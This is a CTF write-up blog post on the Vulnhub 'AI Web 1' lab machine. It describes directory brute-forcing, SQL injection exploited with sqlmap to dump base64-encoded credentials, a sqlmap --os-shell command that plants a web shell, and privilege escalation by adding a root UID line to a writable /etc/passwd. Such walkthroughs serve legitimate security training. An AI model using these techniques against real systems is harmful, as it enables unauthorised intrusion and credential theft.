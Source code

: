 ```yaml
---
layout: post
title: AI Web 1
date: 2019-09-12
author: th3-3inst3in
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## AI Web 1 Vulnhub

After configuring the AI Web vm and getting its ip through  netdocover. I quicky ran a nmap scan and saw that only port 80 was open. This shows that the challenge was purely web based.

I then ran a directory bruteforcer and found robots.txt 

![robots_txt]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/robots.png)


So now we have 2 more directories I further tried bruteforcing them and found a phpinfo file under

[http://192.168.114.134/m3diNf0/info.php](http://192.168.114.134/m3diNf0/info.php)


That was all I could find in the `m3diNf0` directory. Now moving on to the other directory.

Navigating to [http://192.168.114.134/se3reTdir777/](http://192.168.114.134/se3reTdir777/)

You see that there is a form that displays the usenames by taking in user id


![view users]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/ulookup.png)

I intercepted the HTTP post request and tried looking for a sqli and turns out that it was vulnerable.

I copied the HTTP POST request from burp interceptor proxy and then quickly started sqlmap. 


![post req]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/postreq.png)



and following is what I found


```bash

Database: aiweb1                                                                                                              
Table: systemUser                                                                                                             
[3 entries]                                                                                                                   
+----------------------------------------------+-----------+                                                                  
| password                                     | userName  |                                                                  
+----------------------------------------------+-----------+                                                                  
| RmFrZVVzZXJQYXNzdzByZA==                     | t00r      |                                                                  
| TjB0VGhpczBuZUFsczA=                         | u3er      |                                                                  
| TXlFdmlsUGFzc19mOTA4c2RhZjlfc2FkZmFzZjBzYQ== | aiweb1pwn |                                                                  
+----------------------------------------------+-----------+                                                                  
                                                               
```

The passwords are base64 encoded.

I did not find anything further on the web page or in the directories so I thought to try to write a shell in one of the directoires of the website using sqli. 

So the quickest and easiest option was sqlmap


```bash
sqlmap -r req.txt -p uid --os-shell
```


It then asks you to choose a directory of where you will upload the shell for this we need the complete path from home of the web root. This is where it gets fun, remember that little phpinfo file we found earlier ? yup that comes in to play now 


![phpinfo path]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/phpinfo_path.png)


just copy paste that path and you will have your self a nice little shell 


![from sql to shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/sql_shell.png)


Now I like to work in the command line to elavate my privileges and besides a tty shell comes with many advantages.
So I got  a reverse shell and started searching around.

I first started listing files owned by the current web user and to my luck I found that /etc/passwd was owned by the current user.


```bash
ls -la /etc/passwd
-rw-r--r-- 1 www-data www-data 1655 Sep 10 20:10 /etc/passwd
```

Now we can edit /etc/passwd from our web user

following is the change I made 


aiweb1pwn:x:0:0:root:/root:/bin/bash

As you might remember the password for the user `aiweb1pwn` was found from the sql injection  decoding the base64 password and logging in with that user will give us a root shell


![from sql to shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/root.png)